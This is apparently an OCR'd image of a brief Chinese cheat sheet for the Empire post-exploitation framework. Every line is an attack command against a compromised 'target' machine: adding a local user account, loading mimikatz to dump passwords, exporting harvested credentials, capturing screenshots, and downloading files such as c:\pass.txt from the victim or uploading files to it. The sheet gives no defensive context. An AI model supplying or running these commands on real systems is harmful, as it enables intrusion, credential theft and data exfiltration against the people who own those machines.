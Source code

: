 	>interact target1 连接
	>agent 返回靶机列表
	>back 返回上一层
	>shell net user 1 1 /add 执行系统目录格式
	>mimikazt 加载模块获取密码
	>creds 整理获取的密码，creds export /root/1.txt 保存密码，creds hash/plaintext，显示格式
	>sc 获取当前桌面截图，文件存储在./Empire/download/agent名字/screenshot
	>download c:\pass.txt 下载靶机文件到本机
	>upload hacked.txt c:\hacked.txt 上传本机文件到靶机